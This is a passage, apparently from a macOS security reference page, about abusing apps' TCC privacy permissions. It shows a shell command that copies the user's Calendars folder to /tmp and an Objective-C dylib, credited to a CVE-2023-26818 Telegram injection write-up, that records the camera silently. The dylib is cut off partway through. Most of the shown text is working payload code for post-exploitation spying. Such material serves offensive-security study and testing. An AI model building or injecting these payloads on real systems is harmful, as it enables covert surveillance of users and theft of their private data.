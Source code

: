```objectivec
    fclose(stderr); // Close the file stream
}
```
{% endtab %}

{% tab title="Shell" %}
Copy `$HOME/Library/Calendars` to `/tmp/calendars`.

```bash
cp -r "$HOME/Library/Calendars" "/tmp/calendars"
```
{% endtab %}
{% endtabs %}

### Camera

* **Entitlement**: `com.apple.security.device.camera`
* **TCC**: `kTCCServiceCamera`

{% tabs %}
{% tab title="ObjetiveC - Record" %}
Record a 3s video and save it in **`/tmp/recording.mov`**

```objectivec
#import <Foundation/Foundation.h>
#import <AVFoundation/AVFoundation.h>

// gcc -framework Foundation -framework AVFoundation -dynamiclib CamTest.m -o CamTest.dylib
// Code from: https://vsociety.medium.com/cve-2023-26818-macos-tcc-bypass-with-telegram-using-dylib-injection-part1-768b34efd8c4

@interface VideoRecorder : NSObject <AVCaptureFileOutputRecordingDelegate>
@property (strong, nonatomic) AVCaptureSession *captureSession;
@property (strong, nonatomic) AVCaptureDeviceInput *videoDeviceInput;
@property (strong, nonatomic) AVCaptureMovieFileOutput *movieFileOutput;
- (void)startRecording;
- (void)stopRecording;
@end
@implementation VideoRecorder
- (instancetype)init {
    self = [super init];
    if (self) {
        [self setupCaptureSession];
    }
    return self;
}
- (void)setupCaptureSession {
    self.captureSession = [[AVCaptureSession alloc] init];
    self.captureSession.sessionPreset = AVCaptureSessionPresetHigh;
    AVCaptureDevice *videoDevice = [AVCaptureDevice defaultDeviceWithMediaType:AVMediaTypeVideo];
    NSError *error;
    self.videoDeviceInput = [[AVCaptureDeviceInput alloc] initWithDevice:videoDevice error:&error];
    if (error) {
        NSLog(@"Error setting up video device input: %@", [error localizedDescription]);
        return;
    }
    if ([self.captureSession canAddInput:self.videoDeviceInput]) {
        [self.captureSession addInput:self.videoDeviceInput];
    }
    self.movieFileOutput = [[AVCaptureMovieFileOutput alloc] init];
    if ([self.captureSession canAddOutput:self.movieFileOutput]) {
        [self.captureSession addOutput:self.movieFileOutput];
    }
}
- (void)startRecording {
    [self.captureSession startRunning];
```